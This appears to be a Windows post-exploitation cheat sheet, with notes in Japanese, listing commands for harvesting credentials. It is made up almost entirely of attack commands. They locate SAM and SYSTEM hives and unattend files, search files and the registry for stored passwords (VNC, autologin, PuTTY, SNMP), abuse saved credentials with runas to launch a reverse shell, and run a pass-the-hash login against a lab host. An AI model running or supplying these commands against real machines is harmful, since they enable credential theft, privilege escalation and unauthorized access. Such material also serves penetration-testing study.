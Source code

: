 ## Passwords
### Sensitive files
%SYSTEMROOT%\repair\SAM  
%SYSTEMROOT%\System32\config\RegBack\SAM  
%SYSTEMROOT%\System32\config\SAM  
%SYSTEMROOT%\repair\system  
%SYSTEMROOT%\System32\config\SYSTEM  
%SYSTEMROOT%\System32\config\RegBack\system  
findstr /si password *.txt  
findstr /si password *.xml  
findstr /si password *.ini  
Findstr /si password *.config 
findstr /si pass/pwd *.ini  
dir /s *pass*== *cred*== *vnc*== *.config*inall files  
findstr /spin "password"*.*findstr /spin "password"*.*

### Config Files
c:\sysprep.inf  
c:\sysprep\sysprep.xml  
c:\unattend.xml  
%WINDIR%\Panther\Unattend\Unattended.xml  
%WINDIR%\Panther\Unattended.xml  

dir /b /s unattend.xml  
dir /b /s web.config  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
dir /b /s *pass*  

dir c:\*vnc.ini /s /b  
dir c:\*ultravnc.ini /s /b   
dir c:\ /s /b | findstr /si *vnc.ini

### Registory
reg query HKLM /f password /t REG_SZ /s
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

#### VNC
reg query "HKCU\Software\ORL\WinVNC3\Password"  
reg query "HKCU\Software\TightVNC\Server"  

#### Windows autologin  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"  
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword"  

#### SNMP Paramters  
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"  

#### Putty  
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"  

#### Search for password in registry  
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s

### RunAs - Savedcreds
cmdkey /list 
保存されている資格情報を表示し、任意のオプション ユーザーを検索します

runas /savecred /user:admin C:\Temp\reverse.exe
リバースシェルを転送します

### Pass the Hash
#何らかの手段でハッシュを取得する場合は、psexec、smbexecを使用し、別のユーザーとしてシェルを取得します。
pth-winexe -U JEEVES/administrator%aad3b43XXXXXXXX35b51404ee:e0fb1fb857XXXXXXXX238cbe81fe00 //10.129.26.210 cmd.exe

![image](https://github.com/user-attachments/assets/cceca783-ab36-48dc-8eaa-4438e6e7788f)
